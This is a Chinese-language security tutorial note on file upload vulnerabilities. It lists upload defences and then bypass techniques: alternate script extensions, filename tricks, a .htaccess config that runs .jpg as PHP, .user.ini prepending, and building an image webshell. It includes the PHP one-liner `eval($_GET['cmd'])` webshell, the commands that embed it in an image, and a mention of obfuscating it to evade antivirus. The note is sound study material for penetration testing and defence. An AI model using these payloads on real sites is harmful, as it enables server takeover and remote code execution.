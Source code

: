 ## 文件上传

网站若未对用户上传的文件类型、内容或执行权限做严格限制，攻击者可以上传恶意文件（如 WebShell、病毒等）进行攻击

### 防护

- **简单校验**：利用HTML表单、javascript、MIME类型校验

- **文件名校验**：检测扩展名并进行黑名单 / 白名单过滤。更严格一点的会把文件名也给改了，比如改成`时间戳.jpg`

- **文件头Magic Number**：读取文件前几个字节判断文件格式，如JPEG文件应以`FF D8 FF`开头，PNG为`89 50 4E 47`，GIF为`GIF89a`

- **存储隔离**：放在静态资源目录，禁止解析

- **图像处理**：进行图像处理后重新保存

### 绕过

绕过黑名单，或者利用解析漏洞

1. **冷门后缀**：php可能解析`php5` / `pht` / `phtml` / `shtml` / `pwml`；jsp可能解析`jspf` / `jspa` / `jsw` / `jsv` / `jtml` 等后缀；asp支持 `asa` / `asax` / `cer` / `cdx` / `aspx` / `ascx` / `ashx` / `asmx` / `asp{80-90}` 等后缀；`vbs, sh, reg, com, cgi, exe, cfc, cfm`等后缀也可能可以利用。较新版本基本不可能成功
2. **系统命名绕过**：Windows系统可尝试`shell.php.`（末尾句点）、`shell.php%20`（末尾空格）、`shell.php:1.jpg`（冒号）、`shell.php::$DATA`（文件流）；Linux系统可尝试`index.php/.`、`./aa/../index.php/.`
3. PHP服务器**`.user.ini`文件**：构造配置文件`auto_prepend_file=01.gif`，访问同一目录的php脚本时自动运行该文件。要求php 5.3以上
4. apache服务器**`.htaccess`文件**：服务器配置必须开启`AllowOverride`

```htaccess
<ifModule mime_module>
    AddHandler php5-script .jpg
    AddType application/x-httpd-php .jpg
    Sethandler application/x-httpd-php
</ifModule>

<FilesMatch "muma.jpg">
    Sethandler application/x-httpd-php
    Addhandler php5-script .jpg
</FilesMatch>
```

使用图片木马 + 文件包含漏洞

包含恶意代码的图片俗称图片马。恶意代码插入于图片文件结束标记之后，或EXIF元数据，不影响图片显示；但将图片马作为代码执行时，解释器解析执行`<?php ?>`或`<% %>`中的代码。和图种的原理类似

1. 随便准备一张图片`a.jpg`
2. 构造恶意代码。通常用“一句话木马”，即非常简短的木马，其隐蔽性较好。后续可用小木马作为跳板上传大木马
   - PHP：`<?php @eval($_GET['cmd']); ?>`
   - aspx：`<%@ Page Language="Jscript"%>`
   - 这么直白的写法肯定会被杀毒软件发现，需要结合代码混淆实现免杀
3. 将图片和代码拼接到一起。或者用Photoshop、PIL等将木马写入图片EXIF

```shell
cat a.jpg shell.php > shell.jpg           # Linux
copy a.jpg /b + shell.php /a > shell.jpg  # Windows
```
